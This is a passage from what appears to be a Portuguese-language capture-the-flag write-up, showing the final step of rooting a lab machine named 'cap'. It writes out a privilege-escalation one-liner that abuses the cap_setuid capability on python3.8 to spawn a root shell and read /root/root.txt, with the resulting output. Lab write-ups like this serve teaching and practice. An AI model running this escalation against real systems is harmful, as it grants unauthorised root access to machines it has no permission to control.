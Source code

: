 Dos arquivos listados o mais promissor é o `/usr/bin/python3.8` que possui o capability `cap_setuid` configurado, que, de acordo com o [python \| GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities) poderia nos permitir iniciar uma nova instancia do `/bin/sh` e, a partir desta, ler o conteúdo do arquivo flag do usuário `root`.

```bash
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id && hostname && cat /root/root.txt
uid=0(root) gid=1001(nathan) groups=1001(nathan)
cap
<redacted>
```

Espero que tenham gostado!

Vejo vocês no próximo post :smile:
